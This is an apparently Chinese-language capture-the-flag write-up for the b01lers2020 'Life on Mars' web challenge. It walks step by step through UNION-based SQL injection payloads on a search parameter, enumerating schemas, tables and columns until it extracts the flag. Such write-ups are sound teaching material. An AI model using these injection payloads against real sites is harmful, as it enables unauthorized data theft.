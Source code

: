# [b01lers2020]Life on Mars
![](<./img/Pasted image 20230212085901.png>)

```
/
```

![](<./img/Pasted image 20230212085944.png>)

点击左侧条目会发出请求

![](<./img/Pasted image 20230212090816.png>)

```
/query?search=<name>
```

通过访问`/query`路由能够获取到包含对应地区生物信息的`json`

尝试对`search`进行SQL注入

```
/query?search=amazonis_planitia union select 1, 2
```

![](<./img/Pasted image 20230212092806.png>)

```
/query?search=amazonis_planitia union select 1, database()
```

```
aliens
```

```
/query?search=amazonis_planitia union select 1, group_concat(schema_name) from information_schema.schemata
```

```
information_schema,alien_code,aliens
```

```
/query?search=amazonis_planitia union select 1, group_concat(table_name) from information_schema.tables where table_schema = 'alien_code'
```

```
code
```

```
/query?search=amazonis_planitia union select 1, group_concat(column_name) from information_schema.columns where table_name = 'code'
```

```
id,code
```

```
/query?search=amazonis_planitia union select 1, group_concat(id) from alien_code.code
```

```
0
```

```
/query?search=amazonis_planitia union select 1, group_concat(code) from alien_code.code
```

```
flag{481d123d-ab78-45f1-a82d-506efe39483a}
```

#Web #SQL注入 #联合注入 